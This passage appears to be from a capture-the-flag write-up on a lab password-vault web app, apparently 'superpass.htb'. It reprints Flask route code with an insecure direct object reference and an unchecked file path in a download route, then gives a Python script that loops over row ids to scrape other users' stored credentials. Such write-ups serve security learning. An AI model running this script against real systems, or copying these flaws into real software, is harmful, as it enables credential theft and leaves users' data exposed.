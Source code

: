 7.  `@blueprint.get('/vault/add_row')``@response(template_file='vault/partials/password_row_editable.html')``@login_required``def add_row():`    `p = Password()`    `p.password = get_random(20)`    `#import pdb;pdb.set_trace()`    `return {"p": p}`

9.  `@blueprint.get('/vault/edit_row/<id>')``@response(template_file='vault/partials/password_row_editable.html')``@login_required``def get_edit_row(id):`    `password = password_service.get_password_by_id(id, current_user.id)`
10.      `return {"p": password}`

12.  `@blueprint.get('/vault/row/<id>')``@response(template_file='vault/partials/password_row.html')``@login_required``def get_row(id):`    `password = password_service.get_password_by_id(id, current_user.id)`
13.      `return {"p": password}`

15.  `@blueprint.post('/vault/add_row')``@login_required``def add_row_post():`    `r = flask.request`    `site = r.form.get('url', '').strip()`    `username = r.form.get('username', '').strip()`    `password = r.form.get('password', '').strip()`
16.      `if not (site or username or password):`        `return ''`
17.      `p = password_service.add_password(site, username, password, current_user.id)`    `return flask.render_template('vault/partials/password_row.html', p=p)`

19.  `@blueprint.post('/vault/update/<id>')``@response(template_file='vault/partials/password_row.html')``@login_required``def update(id):`    `r = flask.request`    `site = r.form.get('url', '').strip()`    `username = r.form.get('username', '').strip()`    `password = r.form.get('password', '').strip()`
20.      `if not (site or username or password):`        `flask.abort(500)`
21.      `p = password_service.update_password(id, site, username, password)`
22.      `return {"p": p}`

24.  `@blueprint.delete('/vault/delete/<id>')``@login_required``def delete(id):`    `password_service.delete_password(id)`    `return ''`

26.  `@blueprint.get('/vault/export')``@login_required``def export():`    `if current_user.has_passwords:`        `fn = password_service.generate_csv(current_user)`        `return flask.redirect(f'/download?fn={fn}', 302)`    `return "No passwords for user"`

28.  `@blueprint.get('/download')``@login_required``def download():`    `r = flask.request`    `fn = r.args.get('fn')`    `with open(f'/tmp/{fn}', 'rb') as f:`        `data = f.read()`    `resp = flask.make_response(data)`    `resp.headers['Content-Disposition'] = 'attachment; filename=superpass_export.csv'`    `resp.mimetype = 'text/csv'`    `return resp`

Reading the code we can find an idor in this part of the code in the .py file

1.  `@blueprint.get('/vault/row/<id>')``@response(template_file='vault/partials/password_row.html')``@login_required``def get_row(id):`    `password = password_service.get_password_by_id(id, current_user.id)`
2.      `return {"p": password}`

We can see different user passwords by sending different ids. A python script can be created to iterate over the ids and get data from them

1.  `#!/usr/bin/python3``import requests, bs4``from pwn import log`
2.  `target = "http://superpass.htb"``session = requests.Session()`
3.  `data = {"username": "username", "password": "password", "submit": ""}``session.post(target + "/account/login", data=data)`
4.  `for id in range(0,10):`    `request = session.get(target + "/vault/row/" + str(id))`    `soup = bs4.BeautifulSoup(request.content, "html.parser")`    `rows = soup.find_all("tr", class_="password-row")`
5.      `for row in rows:`        `cols = row.find_all("td")`        `sitename = cols[1].get_text()`        `username = cols[2].get_text()`        `password = cols[3].get_text()`
6.          `if sitename != "":`            `log.info(f"Credentials in row {id}:")`            `print(f"tSitename: {sitename}")`            `print(f"tUsername: {username}")`            `print(f"tPassword: {password}")`            `print("r")`
